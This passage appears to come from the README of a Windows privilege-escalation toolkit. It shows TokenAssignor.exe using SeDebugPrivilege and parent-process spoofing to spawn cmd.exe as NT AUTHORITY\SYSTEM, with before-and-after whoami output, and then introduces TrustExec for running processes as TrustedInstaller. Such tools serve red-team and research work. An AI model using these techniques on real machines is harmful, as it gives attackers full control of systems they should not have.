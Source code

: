 ```
C:\Dev>whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
```

If set `-m` option is set to `3`, creates a new token assigned process with PPID spoofing method:

```
PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-5ohmobj\user S-1-5-21-1955100404-698441589-1496171011-1001
PS C:\Dev> .\TokenAssignor.exe -p 688 -m 3

[+] SeDebugPrivilege is enabled successfully.
[+] Got a handle from PID 688 (Handle = 0x2C4).
[+] Thread attribute is built successfully.
[+] "C:\Windows\system32\cmd.exe" is executed successfully (PID = 4852).
[*] User of the created process is NT AUTHORITY\SYSTEM (SID: S-1-5-18)

PS C:\Dev>


Microsoft Windows [Version 10.0.22631.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Dev>whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
```


## TrustExec

[Back to Top](#privfu)

[Project](./TrustExec)

This tool is to execute process as `NT SERVICE\TrustedInstaller` group account.
Original PoC is [Grzegorz Tworek](https://twitter.com/0gtweet)'s [TrustedInstallerCmd2.c](https://github.com/gtworek/PSBits/blob/master/VirtualAccounts/TrustedInstallerCmd2.c).
I ported it to C# and rebuilt it as a tool.
Most of operations require administrative privilege (`SeDebugPrivilege`, `SeImpersonatePrivilege` and High Mandatory Level):
